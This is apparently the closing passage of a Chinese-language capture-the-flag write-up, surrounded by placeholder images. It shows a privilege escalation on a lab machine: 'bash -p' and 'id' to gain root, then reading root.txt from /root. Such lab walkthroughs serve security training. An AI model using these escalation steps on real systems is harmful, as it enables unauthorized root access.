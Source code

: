 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

添加成功，可以提权了

```
/usr/bin/bash -p  
id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，找一下flag

```
cd /root  
ls  
cat root.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)